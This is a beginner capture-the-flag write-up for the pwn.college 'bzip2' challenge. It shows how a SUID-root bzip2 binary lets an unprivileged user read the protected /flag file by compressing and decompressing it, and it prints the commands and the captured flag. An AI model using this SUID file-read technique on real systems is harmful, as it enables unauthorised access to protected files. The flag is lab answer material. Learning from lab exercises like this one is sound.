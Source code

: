 # Challenge Name: bzip2
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/bzip2`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/bzip2
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/bzip2
```

-The `s` in `-rws` indicates it's a SUID binary.
-`bzip2` runs with **root privileges**.

## 🚀 Exploitation

The `bzip2` is a Linux command used to compress files using a more aggressive algorithm than gzip. It produces smaller files, but the process is typically slower. 

Similar to gzip option -c can be used to zip file while moving content to our file.

```bash
bzip2 -c /flag > myflag.bz2
bzip2 -d myflag.bz2
```

Output:
```
pwn.college{onZiHbBA4SL0j5kulyQMu9NUrMI.dBjNxwSM0IzMyEzW}
```

      
